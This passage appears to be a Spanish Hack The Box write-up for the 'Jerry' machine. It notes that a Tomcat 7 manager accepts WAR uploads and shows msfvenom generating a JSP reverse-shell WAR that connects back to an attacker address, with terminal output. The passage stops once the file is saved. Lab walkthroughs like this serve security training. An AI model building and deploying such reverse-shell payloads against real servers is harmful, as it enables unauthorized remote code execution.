 ```java
Server Information
Tomcat Version  JVM Version     JVM Vendor  OS Name     OS Version  OS Architecture     Hostname    IP Address
Apache Tomcat/7.0.88    1.8.0_171-b11   Oracle Corporation  Windows Server 2012 R2  6.3     amd64   JERRY   10.10.10.95
```

- **Importante:** El manager **Permite subir archivos WAR**, es posible deje subir archivos maliciosos. 

- Solo es necesario ir a la sección `WAR file to deploy` y `Browse...`

## Payload malicioso con `msfvenom` para el WAR

- lista de payloads de msfvenom para `Java`:

```java
┌──(fz3r0㉿Fz3r0)-[~/Documents/01_-_Fz3r0_HTB/Jerry]
└─$ msfvenom -l payloads | grep java
    java/jsp_shell_bind_tcp                                            Listen for a connection and spawn a command shell
    java/jsp_shell_reverse_tcp                                         Connect back to attacker and spawn a command shell <<< --------------- Reverse TCP ftw!!!
    java/meterpreter/bind_tcp                                          Run a meterpreter server in Java. Listen for a connection
    java/meterpreter/reverse_http                                      Run a meterpreter server in Java. Tunnel communication over HTTP
    java/meterpreter/reverse_https                                     Run a meterpreter server in Java. Tunnel communication over HTTPS
    java/meterpreter/reverse_tcp                                       Run a meterpreter server in Java. Connect back stager
    java/shell/bind_tcp                                                Spawn a piped command shell (cmd.exe on Windows, /bin/sh everywhere else). Listen for a connection
    java/shell/reverse_tcp                                             Spawn a piped command shell (cmd.exe on Windows, /bin/sh everywhere else). Connect back stager
    java/shell_reverse_tcp                                             Connect back to attacker and spawn a command shell
```

- Creando el payload

```sh
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=666 -f war -o f0_shell_jsp.war
```

```sh
┌──(fz3r0㉿Fz3r0)-[~/Documents/01_-_Fz3r0_HTB/Jerry]
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=666 -f war -o f0_shell_jsp.war
Payload size: 1085 bytes
Final size of war file: 1085 bytes
Saved as: f0_shell_jsp.war
                                                                                                                                                                                                                                                                                                        
┌──(fz3r0㉿Fz3r0)-[~/Documents/01_-_Fz3r0_HTB/Jerry]
└─$ ls -lAh | grep shell
-rw-r--r-- 1 fz3r0 fz3r0 1.1K Jan  1 12:06 f0_shell_jsp.war <<<------- 
                                                                                                                                                     
┌──(fz3r0㉿Fz3r0)-[~/Documents/01_-_Fz3r0_HTB/Jerry]
└─$ 

```
